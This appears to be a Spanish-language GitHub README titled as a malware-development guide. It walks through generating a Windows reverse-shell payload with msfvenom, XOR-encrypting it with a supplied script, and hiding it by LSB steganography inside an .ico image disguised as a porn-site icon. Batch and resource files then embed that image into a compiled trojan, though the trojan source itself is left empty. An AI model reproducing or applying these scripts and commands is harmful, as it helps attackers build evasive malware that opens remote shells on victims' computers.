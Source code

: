 # DESARROLLO DE MALWARE BY @N3XXU5_666

- Descarga de imagen .ico
```bash
curl 
```

- Payload or Shellcode:
```bash
msfvenom -p windows/x86/shell_reverse_tcp LHOST 0.0.0.0 LPORT 0000 -f raw -o shellcode.bin
```

- File xor.py
```python
import sys

def xor(inputData, encKey):

  encKey = str(encKey)
  l = len(encKey)
  outStr = b""

  for i in range(len(inputData)):
    cde = inputData[i]
    ck = encKey[i % len(encKey)]
    outStr += chr(cde ^ ord(ck)).encode('latin-1')

  return outStr

if name == "main":

  ENCRYPT_KEY = "wubbalubbadubdub"
  try:
    plainText = open(sys.argv[1], "rb").read()
    cipherText = xor(plainText, ENCRYPT_KEY)
    open("encrypted.bin", "wb").write(cipherText)
  except:
    print(f"Usage: python3 {sys.argv[0]} <payload file>")
    sys.exit(1)
```

- Encrypt payload :
```bash
python xor.py shellcode.bin #Crea un archivo llamado encrypted.bin
```

- file lsb.py
```python
from PIL import Image
from pydub import AudioSegment
import numpy as np
import wave
import sys

def printHelp():

  print(f"""
Usage:


Hide message:

python3 {sys.argv[0]} -hide <image path> <message file> <output image path>


Unhide message:

python3 {sys.argv[0]} -extract <image path>
      """)

def hideBits(orig, msgFile, dest):

  img = Image.open(orig,'r')
  width, height = img.size
  array = np.array(list(img.getdata()))
  if img.mode == 'RGB':
    n = 3
  elif img.mode == 'RGBA':
    n = 4
  total_pixels = array.size//n
  message = open(msgFile, "rb")
  message = message.read()
  message += b"$end_of_message$"
  b_message = ''.join([format(i, "08b") for i in message])
  req_pixels = len(b_message)
  if req_pixels > total_pixels:
    print("ERROR: Need larger file size")
  else:
    index = 0
    for p in range(total_pixels):
      for q in range(0,3):
        if index < req_pixels:
          array[p][q] = int(bin(array[p][q])[2:9] + b_message[index],2)
          index += 1
    array = array.reshape(height, width, n)
    enc_img = Image.fromarray(array.astype('uint8'), img.mode)
    enc_img.save(dest)
    print("\nHidden message successfully!\n")

def extract(path):

  img = Image.open(path, 'r')
  array = np.array(list(img.getdata()))
  if img.mode == 'RGB':
    n = 3
  elif img.mode == 'RGBA':
    n = 4
  total_pixels = array.size//n
  hidden_bits = ""
  for p in range(total_pixels):
    for q in range(0,3):
      hidden_bits += (bin(array[p][q])[2:][-1])
  hidden_bits = [hidden_bits[i:i+8] for i in range(0, len(hidden_bits), 8)]
  message = b""
  for i in range(len(hidden_bits)):
    if message[-16:] == b"$end_of_message$":
      break
    else:
      message += chr(int(hidden_bits[i],2)).encode('latin-1')
  dstFile = open("message.bin", "wb")
  if b"$end_of_message" in message:
    dstFile.write(message[:-16])
    print("\nUnhidden message successfully!\n")
  else:
    print("\nNo Hidden Message Found\n")

if name == "main":

  if len(sys.argv) != 5 and len(sys.argv) != 3:
    printHelp()
    sys.exit(1)
  if sys.argv[1] != "-hide" and sys.argv[1] != "-extract":
    printHelp()
    sys.exit(1)
  if sys.argv[1] == "-hide":
    if len(sys.argv) != 5:
      printHelp()
      sys.exit(1)
    hideBits(sys.argv[2], sys.argv[3], sys.argv[4])
  else:
    if len(sys.argv) != 3:
      printHelp()
      sys.exit(1)
    extract(sys.argv[2])
```
- Inyecta el shellcode en la imagen
```bash
python3 -hide pornhb.ico shellcode.bin pornhblsb.ico
```
- Extrae el shellcode de la imagen
```bash
python3 -extract pornhblsb.ico # Crea archivo message.bin
```
# REFERENCIAS :
[SHELLCODES](http://shell-storm.org/shellcode/index.html) | Shellcodes pre-creados
[DONUT](https://github.com/TheWover/donut) | Convierte codigo cpp compilado a shellcode

# SCRIPTS EN BATCH PARA COMPILAR TROJANO
##Proceso desde SO Windows
- Compilador (VS-code) FILE: compile.bat
```
@ECHO OFF

rc resources.rc
cvtres /nologo /MACHINE:x64 /OUT:resources.o resources.res
cl.exe /nologo /0x /MI /W0 /GS- /DNDBUG /Tp trojan.cpp /Link /OUT:resources.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o
```
# REFERENCIAS :
[COMPILER-FLAGS](https://learn.microsoft.com/en-us/cpp/build/reference/compiler-options-listed-alphabetically?view=msvc-170) | Banderas de compilacion. Se pueden modificar en base al compilador a usar.

- resources.rc
```
#include "resources.h"

MY_ICON RCDATA pornhublsb.ico
```
- resources.h
```
#define My_ICO 200
```
- trojan1.cpp
```

```
- Proceso de compilacion desde el x64 Native Tools Command Prompt for Visual Studio
Los native tools ya vienen instalados al instalar [FLARE-VM](https://github.com/mandiant/flare-vm) | Software de Analisis de malware
```
compile.bat 
```





